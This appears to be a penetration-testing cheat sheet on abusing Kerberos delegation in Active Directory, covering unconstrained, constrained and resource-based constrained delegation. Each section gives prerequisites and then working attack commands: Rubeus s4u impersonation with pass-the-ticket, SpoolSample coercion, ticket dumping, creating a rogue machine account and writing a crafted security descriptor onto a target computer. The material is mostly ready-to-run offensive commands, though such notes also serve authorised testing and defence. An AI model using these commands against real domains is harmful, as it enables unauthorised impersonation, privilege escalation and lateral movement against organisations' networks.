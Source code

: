 # Unconstrained Delegation
An account with a set SPN (e.g. Service A) can impersonate a user using the service set via the SPN at any other service in Active Directory. For this purpose, the service can use the user's ticket granting ticket, which is send together with the TGS for Service A.

## Prerequisites
```
NOT_DELEGATED UAC flag of target user must be false
TRUSTED_FOR_DELEGATION UAC flag in the attributes of the attacker account associated SPN must be true (only domain admins have typically the SeEnableDelegationPrivilege right to change this flag)
```

## Result
Domain Controller responds with target user TGT

## Commands
- Using S4U2Self
```
Invoke-Rubeus -Command 's4u /user:<attackerComputerA> /rc4:<attackerNtlmHash> /impersonateuser:<targetUser> /msdsspn:"cifs/<fqdnTargetComputerB>" /ptt'
```

- Using spoolservice (rubeus monitor needs elevated context)
```
Invoke-Rubeus -Command 'monitor /interval:1'
SpoolSample.exe <targetComputer> <attackerComputer>
```

- Using cached ticket
```
Invoke-Rubeus -Command 'dump'
Invoke-Rubeus -Computer 'ptt /ticket:<base64Ticket>'
```


# Constrained Delegation
An account with a set SPN (e.g. Computer A with Service A) can impersonate a user using Service A towards other services in Active Directory. Impersonation can be applied to services (e.g. Service B) defined in the msDS-AllowedToDelegateTo attribute of Computer A. The impersonation is performed by using the S4U2Proxy Extension, after the user authenticates to Service A. It is also possible to impersonate the user for an alternative service, as long as these service are provided by Computer B. This is because the service part of the SPN (<spn>/<fqdn>) in a service ticket is not signed by Kerberos and thus can later be manipulated.

## Prerequisites
```
NOT_DELEGATED UAC flag of target user must be false
msDS-AllowedToDelegateTo attribute of Computer A must hold Service B 
```

## Result
Domain Controller responds with TGS of target user for Service B - this TGS can be used for alternative services provided on Computer B

## Commands
- Check allowed SPNs
```
Get-DomainUser <attackerComputerA> -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
```

- If SPN already contains cifs or desired service as SPN
```
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<targetUser>')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
```

- Otherwise ask for TGS and insert alternative service
```
Invoke-Rubeus -Command 's4u /user:<attackerComputerA> /rc4:<ntlmHashComputerA> /impersonateuser:<targetUser> /msdsspn:"<service>/<fqdnTargetComputerB>" /altservice:cifs /ptt'
```


# Resource Based Constrained Delegation
An account (e.g. Computer A) with set SPN (e.g. Service A) can impersonate a user using Service A towards other services (e.g. Service B of Computer B) in Active Directory. Impersonation can only take place if the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of Service B lists Computer A.

## Prerequisites
```
NOT_DELEGATED UAC flag of target user must be false
msDS-AllowedToActOnBehalfOfOtherIdentity attribute of Computer B must hold Service A 
One Domaincontroller with OS at least Windows Server 2012
```

## Result
Domain Controller responds with TGS of target user for Service A - this TGS can be used for alternative services

## Commands
- Check machine account quota (powerview)
```
Get-DomainObject -Domain <domain> -Properties ms-ds-machineaccountquota | Select -First 1
```

- Check DC OS
```
Get-NetDomainController | Select name,osversion | Format-List
```

- Check present SPN in msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

- Add new computer to domain if necessary (powermad)
```
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newComputerPassword>' -AsPlainText -Force)
```

- Get SID of new computer
```
Get-NetComputer <newComputer> -Properties objectsid | Select -Expand objectsid
```

- Create a raw security descriptor for the new computer
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<newComputerSid>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

- Add new value to msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

- Check added msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

- Ask for TGS
```
Invoke-Rubeus -Command 's4u /user:<newComputer> /rc4:<newComputerNtlmHash> /impersonateuser:<targetUser> /msdsspn:cifs/<fqdnTargetComputerB> /ptt'
```

# S4U2Proxy
The service for User to Proxy Extension allows a service that has a service ticket from a user for its own service to request a service ticket from the domain controller on behalf of     the user for other services. The S4U2Proxy extension works for resource-based constrained delegation even if the provided TGS of the user is not forwardable (design error of microsoft).

# S4U2Self
The service-for-User-to-Self extension allows a service to obtain a service ticket to itself on behalf of a arbitrary user. In order to work, the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION UAC flag of Service A need to be set to true. If the flag is not true the resulting TGS of user X will not be forwardable.


